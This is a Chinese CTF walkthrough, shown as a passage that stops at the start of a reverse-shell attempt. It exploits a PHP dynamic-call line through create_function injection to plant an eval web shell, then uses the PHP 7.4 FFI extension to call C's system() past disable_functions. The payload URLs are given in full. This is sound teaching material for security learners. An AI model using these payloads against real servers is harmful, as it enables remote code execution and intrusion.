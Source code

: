 ![image-20210131172115794](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e0e091413e4aa108ad38c882bbd57207ed9b2eb2.png)

查看源码发现提示：

![image-20210131172151420](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-059853ac76501e2631ff415b6a15935ec0d2664a.png)

```php
$_REQUEST['fighter']($_REQUEST['fights'],$_REQUEST['invincibly']);
```

可以动态的执行php代码，此刻应该联想到create\_function代码注入：

```php
create_function(string $args,string $code)
//string $args 声明的函数变量部分
//string $code 执行的方法代码部分
```

我们令 `fighter=create_function`，`invincibly=;}eval($_POST[whoami]);/*` 即可注入恶意代码并执行。

payload：

```php
/?fighter=create_function&fights=&invincibly=;}eval($_POST[whoami]);/*
```

使用蚁剑成功连接，但是无法访问其他目录也无法执行命令：

![image-20210131180706212](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-38b2719c5ff491e9fed1a31a71339a0fd8531874.png)

![image-20210209202533891](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d4271d82ff8d9b7f07053879c46e6cd9758db089.png)

很有可能是题目设置了disable\_functions，我们执行一下phpinfo()看看：

```php
/?fighter=create_function&fights=&invincibly=;}phpinfo();/*
```

发现果然用disable\_functions禁用了很多函数：

![image-20210131180834146](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c6b55e6674bffd0561d7ace5c42bc86967e99a94.png)

根据题目名字的描述，应该是让我们使用PHP 7.4 的FFI绕过disabled\_function，并且我们在phpinfo中也看到FFI处于enable状态：

![image-20210131184100349](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-95bfd3709af612283b434707ca34c953d9c2bc99.png)

#### 利用FFI调用C库的system函数

我们首先尝试调用C库的system函数：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int system(const char *command);");$ffi->system("ls / > /tmp/res.txt");echo file_get_contents("/tmp/res.txt");/*
```

C库的system函数执行是没有回显的，所以需要将执行结果写入到tmp等有权限的目录中，最后再使用 `echo file_get_contents("/tmp/res.txt");` 查看执行结果即可。

但是这道题执行后却发现有任何结果，可能是我们没有写文件的权限。尝试反弹shell：
